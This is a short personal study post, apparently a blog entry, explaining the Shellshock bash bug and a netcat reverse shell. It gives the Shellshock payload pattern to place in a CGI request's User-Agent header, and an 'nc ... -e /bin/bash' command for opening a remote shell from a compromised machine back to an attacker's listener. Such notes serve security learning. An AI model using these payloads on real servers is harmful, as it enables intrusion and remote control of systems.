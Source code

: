 ```yaml
---
layout: post
title: Shellshock and Reverse Shell Using 'Netcat'
---
```


## Shellshock
`() { :;}; [arbitrary command]` can be used to execute arbitrary commands.\
The shellshock bug can be executed if the environment variable of the cgi is somehow set.\
**Honestly I don't enough about cgi, environment variables, bash to understand exactly how this works.**\
So web servers like apache will make a cgi script. The cgi script wil be executed on a bash shell.\
Apache will send information to the cgi script via environment variables. That will be the key to inject the shellshock code.\

In the web, `User-Agent` header is used for logging purposes, and this is exposed directly to the environment variable.\
By setting the `User-Agent` as the above mentioned shellshock bug, you can get access to the server.

[The original shellshock report](https://seclists.org/oss-sec/2014/q3/650)

## Reverse Shell with Netcat
On the local machine you have access to,
```nc -l -p [port number]```
-l: set to listen mode
-p: will set port number; for the listener, this is the listened port, for the target system, this is the source port

On the penetrated machine,
```nc [ip address] [port number] -e /bin/bash(or other shells such as /bin/sh)```
-e: tell what operation to do after connection is set
